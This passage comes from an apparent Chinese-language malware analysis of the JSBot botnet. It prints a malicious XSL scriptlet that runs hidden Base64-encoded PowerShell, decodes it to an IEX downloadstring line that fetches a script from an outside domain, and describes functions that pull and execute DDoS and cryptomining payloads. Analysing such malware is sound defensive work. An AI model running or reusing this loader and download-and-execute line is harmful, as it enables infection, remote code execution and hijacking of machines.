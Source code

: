 文件名为networks.xsl的XML文件内容如下，通过新建 ActiveXObject(“WScript.Shell”).Run(ps,0,true) 执行一段powershell经过Base64加密的脚本

```
&lt;?XML version=”1.0”?&gt;

&lt;scriptlet&gt;

&lt;registration
progid="Test"
classid="`{`10001111-0000-0000-0000-0000FEEDACDC`}`" &gt;
&lt;!-- Learn from Casey Smith @subTee --&gt;
&lt;script language="JScript"&gt;
&lt;![CDATA[
ps = “cmd.exe /c powershell.exe -nop -noni -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAGkAeAAuAHgAaQBhAG8AagBpAGoAaQAuAG4AbAAvAG4AZQB0AHcAbwByAGsAcwAuAHAAcwAxACcAKQApAA==”;
new ActiveXObject(“WScript.Shell”).Run(ps,0,true);
]]&gt;
&lt;/script&gt;
&lt;/registration&gt;
&lt;/scriptlet&gt;
```

其中命令部分经base64解码后内容如下，JSBot从 six.xiaojiji.nl 域名下载进过混淆的脚本 networks.ps1

`IEX ((new-object net.webclient).downloadstring('http://six.xiaojiji.nl/networks.ps1'))`

networks.ps1包含三个参数，参数经过过base64或混淆

[![](https://p0.ssl.qhimg.com/t01f47b22e55c12a98a.jpg)](https://p0.ssl.qhimg.com/t01f47b22e55c12a98a.jpg)

对文件进行解码后参数功能可以归结如下

[![](https://p1.ssl.qhimg.com/t012bf003bb889d8c8b.jpg)](https://p1.ssl.qhimg.com/t012bf003bb889d8c8b.jpg)

#### <a class="reference-link" name="%24ffffff%E8%A7%A3%E7%A0%81%E5%87%BA%E7%9A%84%E6%A0%B8%E5%BF%83%E5%87%BD%E6%95%B0"></a>$ffffff解码出的核心函数

函数Download_File，调用[System.IO.File]::WriteAllBytes(“$env:temp$Filename”, $temp)从失陷主机下载文件

[![](https://p3.ssl.qhimg.com/t014e03a48f03242447.jpg)](https://p3.ssl.qhimg.com/t014e03a48f03242447.jpg)

函数RunDDOS，从 [http://xxx.xxx.xxx.xxx/cohernece.txt](http://xxx.xxx.xxx.xxx/cohernece.txt) 下载DDOS文件到C:\Windows\TEMP\cohernece.exe目录并执行

[![](https://p1.ssl.qhimg.com/t019daac3f181dc0b3d.jpg)](https://p1.ssl.qhimg.com/t019daac3f181dc0b3d.jpg)

函数RunXMR，从 [http://xxx.xxx.xxx.xxx/steam.txt](http://xxx.xxx.xxx.xxx/steam.txt) 下载挖矿木马并执行

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e026c36a2203596f.jpg)
